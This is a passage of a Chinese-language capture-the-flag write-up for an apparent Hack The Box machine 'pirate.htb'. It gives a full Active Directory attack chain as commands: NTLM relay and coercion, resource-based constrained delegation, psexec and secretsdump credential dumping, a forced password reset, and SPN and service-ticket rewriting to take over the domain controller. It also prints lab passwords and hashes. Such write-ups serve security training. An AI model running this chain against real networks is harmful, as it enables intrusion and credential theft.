

#### 基于委派约束的中继攻击

```shell
impacket-ntlmrelayx -t ldaps://10.129.8.139 --no-http-server --delegate-access --remove-mic -smb2support
```

使用coercer进行攻击

```shell
proxychains4 coercer coerce -l 10.10.16.252 -t 192.168.100.2 -u GMSA_ADFS_PROD$ --hash :8126756fb2e69697bfcb04816e685839 -d pirate.htb --always-continue
```

成功添加新的机器用户
RKKBIIKI$ / 5k_cC-i4CNLM*,Z



#### RBCD攻击

```shell
impacket-getST -spn 'cifs/web01.pirate.htb' -impersonate Administrator -dc-ip 10.129.8.139 pirate.htb/RKKBIIKI$:'5k_cC-i4CNLM*,Z'
```



#### 票据登录

```shell
proxychains4 -q impacket-psexec -k -no-pass Administrator@web01.pirate.htb
```



### a.white

提取a.white的密码

```shell
proxychains4 -q impacket-secretsdump -k -no-pass Administrator@web01.pirate.htb
```

password:

```
PIRATE\a.white:E2nvAOKSz5Xz2MJu
```



a.white可以强制更改a.white_adm的密码



```shell
bloodyAD --host 10.129.8.139 -d pirate.htb -u 'a.white' -p 'E2nvAOKSz5Xz2MJu' set passwd a.white_adm '@Zhaha123'
```



### SPN重写

将HTTP/WEB01.pirate.htb这个SPN从WEB01\$中移到DC01\$

```shell
addspn -u 'pirate.htb\a.white_adm' -p '@Zhaha123' -t 'WEB01$' -s 'HTTP/WEB01.pirate.htb' -r 10.129.8.139
addspn -u 'pirate.htb\a.white_adm' -p '@Zhaha123' -t 'DC01$' -s 'HTTP/WEB01.pirate.htb' 10.129.8.139
```



### 服务票据重写

```shell
impacket-getST -spn 'HTTP/WEB01.pirate.htb' -impersonate Administrator -dc-ip 10.129.8.139 'pirate.htb/a.white_adm:@Zhaha123' -altservice 'CIFS/DC01.pirate.htb'
```



拿下域控权限

